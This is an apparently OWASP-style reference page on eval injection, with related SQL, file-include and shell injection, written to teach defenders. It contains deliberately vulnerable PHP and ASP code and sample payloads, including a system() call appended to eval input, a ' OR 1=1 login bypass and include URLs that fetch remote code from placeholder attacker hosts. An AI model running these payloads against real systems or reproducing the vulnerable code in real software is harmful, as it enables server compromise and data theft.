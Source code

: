 ```yaml
---
layout: col-sidebar
title: Direct Dynamic Code Evaluation - Eval Injection
author:
contributors:
permalink: /attacks/Direct_Dynamic_Code_Evaluation_Eval Injection
tags: attack, direct dynamic code evaluation, eval injection
auto-migrated: 1
---
```


{% include writers.html %}

## Description

This attack consists of a script that does not properly validate user inputs in the page parameter. A remote user can supply a specially crafted URL to pass arbitrary code to an eval() statement, which results in code execution.

Note 1: This attack will execute the code with the same permission like the target web service, including operation system commands.

Note 2: Eval injection is prevalent in handler/dispatch procedures that might want to invoke a large number of functions, or set a large number of variables.

Risk Factors
TBD

Examples
Example 1
In this example an attacker can control all or part of an input string that is fed into an eval() function call

$myvar = "varname";
$x = $\_GET['arg'];
eval("\$myvar = \$x;");
The argument of "eval" will be processed as PHP, so additional commands can be appended. For example, if "arg" is set to "10 ; system(\"/bin/echo uh-oh\");", additional code is run which executes a program on the server, in this case "/bin/echo".

Example 2
The following is an example of SQL Injection. Consider a web page which has two fields to allow users to enter a Username and a Password. The code behind the page will generate a SQL query to check the Password against the list of Usernames:

SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password'
If this query returns exactly one row, then access is granted. However, if a malicious user enters a valid Username and injects some valid code ("' OR 1=1") in the Password field, then the resulting query will look like this:

SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password' OR '1'='1'
In the example above, "Password" is assumed to be blank or some innocuous string. "1=1" will always be true and many rows will be returned, thereby allowing access. The final inverted comma will be ignored by the SQL parser. The technique may be refined to allow multiple statements to run, or even to load up and run external programs.

Example 3
This is an example of a file that was injected. Consider this PHP program (which includes a file specified by request):

<?php
   $color = 'blue';
   if ( isset( $_GET['COLOR'] ) )
      $color = $_GET['COLOR'];
   require( $color . '.php' );
?>
<form>
   <select name="COLOR">
      <option value="red">red</option>
      <option value="blue">blue</option>
   </select>
   <input type="submit">
</form>

The developer thought this would ensure that only blue.php and red.php could be loaded. But as anyone can easily insert arbitrary values in COLOR, it is possible to inject code from files:

/vulnerable.php?COLOR=http://evil/exploit - injects a remotely hosted file containing an exploit.
/vulnerable.php?COLOR=C:\ftp\upload\exploit - injects an uploaded file containing an exploit.
/vulnerable.php?COLOR=..\..\..\..\ftp\upload\exploit - injects an uploaded file containing an exploit, using Path Traversal.
/vulnerable.php?COLOR=C:\notes.txt%00 - example using Null character, Meta character to remove the .php suffix, allowing access to other files than .php. (PHP setting "magic_quotes_gpc = On", which is default, would stop this attack)
Example 4
A simple URL which demonstrates a way to do this attack:

http://some-page/any-dir/index.php?page=<?include($s);?>&s=http://malicious-page/cmd.txt?
Example 5
Shell Injection applies to most systems which allow software to programmatically execute a Command line. Typical sources of Shell Injection are calls system(), StartProcess(), java.lang.Runtime.exec() and similar APIs.

Consider the following short PHP program, which runs an external program called funnytext to replace a word the user sent with some other word.

<HTML>
<?php
passthru ( " /home/user/phpguru/funnytext "
           . $_GET['USER_INPUT'] );
?>
This program can be injected in multiple ways:

`command` will execute command.
$(command) will execute command.
; command will execute command, and output result of command.
| command will execute command, and output result of command.
&& command will execute command, and output result of command.
|| command will execute command, and output result of command.

> /home/user/phpguru/.bashrc will overwrite file .bashrc.
> < /home/user/phpguru/.bashrc will send file .bashrc as input to funnytext.
> PHP offers escapeshellarg() and escapeshellcmd() to perform encoding before calling methods. However, it is not recommended to trust these methods to be secure - also validate/sanitize input.

Example 6
The following code is vulnerable to eval() injection, because it don’t sanitize the user’s input (in this case: “username”). The program just saves this input in a txt file, and then the server will execute this file without any validation. In this case the user is able to insert a command instead of a username.

Example:

<%
If not isEmpty(Request( "username" ) ) Then
Const ForReading = 1, ForWriting = 2, ForAppending = 8
Dim fso, f
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "userlog.txt" ), ForAppending, True)
f.Write Request("username") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing
%>

<h1>List of logged users:</h1>
<pre>
<%
Server.Execute( "userlog.txt" )
%>
</pre>
<%
Else
%>
<form>
<input name="username" /><input type="submit" name="submit" />
</form>
<%
End If
%>
Related Threat Agents
Internal software developer
Related Attacks
Direct Static Code Injection
Code Injection
Injection Attacks
Related Vulnerabilities
Category:Input Validation Vulnerability
Related Controls
Category:Input Validation
References
http://secunia.com/cve_reference/CVE-2006-2005/?show_result=1
http://en.wikipedia.org/wiki/Code_injection
